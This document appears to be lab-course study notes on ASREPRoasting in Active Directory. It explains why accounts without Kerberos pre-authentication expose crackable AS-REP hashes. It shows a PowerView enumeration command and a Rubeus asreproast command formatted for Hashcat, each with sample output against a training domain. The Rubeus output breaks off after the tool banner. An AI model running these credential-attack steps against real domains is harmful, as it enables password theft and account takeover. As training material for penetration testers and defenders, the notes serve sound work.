 
## ASREPRoasting
AS-REP message abuse
obtain the Ticket Granting Ticket (TGT) for any account that has the `[Do not require Kerberos pre-authentication]` setting enabled

The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.


ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP

- **AS-REP message**, which contains:
    - **A session key** (encrypted with the user’s NTLM hash).
    - **The TGT** (encrypted with the `krbtgt` hash).
- The attacker can capture this **AS-REP response** because it's **encrypted using only the user’s NTLM hash**, making it crackable **offline**.

---
The attack itself can be performed with the [Rubeus](https://github.com/GhostPack/Rubeus) toolkit and other tools to obtain the ticket for the target account. If an attacker has `GenericWrite` or `GenericAll` permissions over an account, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again. Like Kerberoasting, the success of this attack depends on the account having a relatively weak password

---

#### Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
```shell
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

This attack does not require any domain user context and can be done by just knowing the SAM name for the user without Kerberos pre-auth

Remember, add the `/nowrap` flag so the ticket is not column wrapped and is retrieved in a format that we can readily feed into Hashcat.

#### Retrieving AS-REP in Proper Format using Rubeus
```shell
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: AS-REP roasting
```
